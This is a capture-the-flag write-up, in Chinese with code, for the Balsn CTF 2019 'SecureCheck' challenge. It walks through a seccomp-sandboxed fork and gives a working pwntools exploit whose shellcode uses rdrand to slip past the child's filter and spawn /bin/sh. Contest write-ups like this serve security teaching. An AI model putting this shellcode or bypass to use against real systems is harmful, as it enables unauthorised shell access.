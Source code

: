 # Balsn CTF 2019

## Misc SecureCheck - 330

### Description

No system call no pain

```  
nc securecheck.balsnctf.com 54321  
```

Download

Author: Billy

### Solution

By [@HexRabbit](https://blog.hexrabbit.io)  
Credits to [@jaidTw](https://github.com/jaidTw)

這題說起來其實相當容易，前提是不要被想法限制住

題目 binary 逆向完大概長這樣  
```cpp  
void exit_syscall_filter()  
{  
 scmp_filter_ctx ctx;  
 ctx = seccomp_init(SCMP_ACT_KILL);  
 seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);  
 seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);  
 seccomp_load(ctx);  
}

int main() {  
   int status;  
   char *buf = mmap(0,  
                   0x1000,   
                   PROT_WRITE|PROT_READ|PROT_EXEC,  
                   MAP_SHARED|MAP_ANONYMOUS, -1, 0);  
   read(0, buf, 0x1000);  
  
   void (*f)() = (void (*)())buf;  
   if (!fork()) {  
       exit_syscall_filter();  
       f();  
   }  
   else {  
       wait(&status);  
       if(!status)  
           f();  
   }  
}  
```

題目讓使用者輸入一段 shellcode，接著 `fork()` 讓 child 先執行 seccomp 後跳進 shellcode，而 parent 會以
`wait()` 等待 child 返回，若是返回值為零，parent 也會執行相同的 shellcode

比較麻煩的是，由於 fork 會完整複製(by copy-on-write)一份相同的 process context 給 child，所以在 child
中的記憶體操作是不會影響到 parent process 的

瞭解這些限制後解題思路便是:「寫一份 shellcode 可以在判別 parent/child 後執行不同的指令」

不過接下來就卡住了，因為在 seccomp 限制下實在是難以找到方式辨別 child/parent。再來便是想到一些存在於 vDSO 內的 function
可以繞過 seccomp，如 time, gettimeofday .. 等，但苦於執行 shellcode 前幾乎把所有 register
的值都清掉了，也就找不到 vDSO base

最後隊友 [@jaidTw](https://github.com/jaidTw) 想到，何不乾脆在 shellcode
中使用一些每次執行的結果都不同的指令，然後透過判斷後一邊執行一邊不執行 syscall 呢?

翻閱技術文件，找到幾個好用的指令  
- rdtsc  
- rdtscp  
- rdrand  
- rdseed

於是就解出來了XD

最終的 exploit 如下:

```python  
#!/usr/bin/env python  
from pwn import *  
context.arch = 'amd64'  
context.terminal = ['tmux', 'neww']  
r = remote('securecheck.balsnctf.com', 54321)

sc = asm('''  
   rdrand eax  
   and eax, 0x1  
   cmp ax, 0x1  
   je SYSCALL  
   mov eax, 0x3c  
   xor edi, edi  
   syscall  
  
SYSCALL:  
   lea rsp, [rdx+0xf00]  
   mov rdi, 0x0068732f6e69622f  
   push rdi  
   mov rdi, rsp  
   mov eax, 0x3b  
   xor esi, esi  
   xor edx, edx  
   syscall  
''')

r.send(sc)

r.interactive()  
```  

Original writeup (https://github.com/10secTW/ctf-
writeup/tree/master/2019/balsn%20CTF/SecureCheck).